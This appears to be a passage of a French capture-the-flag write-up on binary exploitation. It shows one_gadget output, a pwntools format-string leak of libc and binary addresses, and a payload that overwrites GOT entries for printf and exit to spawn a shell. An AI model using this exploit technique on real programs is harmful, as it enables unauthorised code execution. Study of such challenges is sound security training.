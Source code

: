 ```bash
one_gadget ./libc.so.6   
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

### Leak de la libc et du binaire

Bon pour cette partie, vu que le leak s'obtenait par une format string, il y'a rien de très technique, j'ai juste cherché les adresses qui m'intéressait et les ait soustraits aux adresses de bases du binaire et de la libc respectivement:

```python
# Leaking binary / libc / stack address

io.recvuntil(b"sente donc la situation ?\n[Vous] : ")
io.sendline(b"%p" * 48)

leak = io.recvline().decode("utf-8")

leak_libc = int(leak[-57:-43], 16) - 4118720
leak_binary = int(leak[-29:-15], 16) - 7884
help_christian = 0x00000970

pwn.log.info(f"Binary mapped @ {hex(leak_binary)}")
pwn.log.info(f"Libc mapped @ {hex(leak_libc)}")
```

Ensuite on applique la même technique que dans la première partie pour obtenir l'offset du buffer de notre format string, ici il vaut 32.

### Obtention du shell

Le principal problème que j'ai rencontré pour cette partie était que mon one_gadget qui était à l'adresse `0x10a2fc` dans la libc demandait une contrainte telle que `[rsp + 0x70] == NULL`, condition qui, après l'appel à pick_quote n'était pas vérifiée.

Pour palier à ce problème, au lieu de réécrire l'adresse de `exit` dans la got avec celle de notre gadget, on va rediriger l'appel à exit vers la fonction help_christian pour créer une nouvelle stackframe. Et vu que help_christian appelle printf, on réécrit l'adresse de printf dans la got avec notre gadget.

```python
# Shelling a shell

exe.address = leak_binary
exit_got = exe.symbols['got.exit']
printf_got = exe.symbols['got.printf']

one_gadget = 0x10a2fc
pwn.log.info(f"One gadget @ {hex(leak_libc + one_gadget)}")

payload = pwn.fmtstr_payload(buffer_offset, {printf_got : leak_libc + one_gadget, exit_got : leak_binary + help_christian})
io.sendline(payload)

io.interactive()
```